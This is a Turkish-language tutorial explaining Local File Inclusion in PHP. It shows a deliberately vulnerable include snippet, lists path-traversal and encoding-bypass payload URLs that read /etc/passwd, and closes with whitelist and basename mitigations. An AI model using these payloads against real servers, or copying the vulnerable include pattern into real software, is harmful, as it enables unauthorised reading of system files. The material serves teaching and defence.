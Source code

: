 # Local File Inclusion (LFI) Nedir
Local File Inclusion, web uygulamalarında kullanıcıdan alınan verilerin dosya yolu olarak işlenmesi sırasında ortaya çıkan bir zafiyetdir. Saldırgan, LFI sayesinde sunucudaki yerel dosyalara erişebilir ve hassas bilgileri elde edebilir.

Örnek olarak bir PHP uygulamasında şöyle bir kod olduğunu düşünelim:
```php
<?php
// index.php
$page = $_GET['page'];
include($page);
?>
```

Bu kod, URL’den gelen page parametresini doğrudan include ediyor. Örneğin:
```
http://example.com/index.php?page=about
```

about.php dosyasını sunucuya dahil eder. Ancak saldırgan parametreyi değiştirerek kritik sistem dosyalarına erişebilir:
```
http://example.com/index.php?page=../../../../etc/passwd
```

Bu durumda sunucu /etc/passwd dosyasının içeriğini döndürebilir.

# Bypass Teknikleri
## Double Encoding
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

## UTF-8 Encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

## Path Truncation
```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

## Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

# LFI Açığının Önlemek
### Input Validation & Whitelisting
Kullanıcıdan gelen dosya adlarını direkt include etme. Sadece izin verilen dosyalar:
```php
$allowed_pages = ['about', 'contact', 'home'];
if(in_array($_GET['page'], $allowed_pages)) {
    include($_GET['page'] . '.php');
} else {
    echo "Sayfa bulunamadı";
}
```

## Dizin Sabitleme (Directory Traversal Protection)
Kullanıcı inputunu direkt dosya yolu olarak kullanmak yerine, sabit dizinle birleştir:
```php
include(__DIR__ . '/pages/' . basename($_GET['page']) . '.php');
```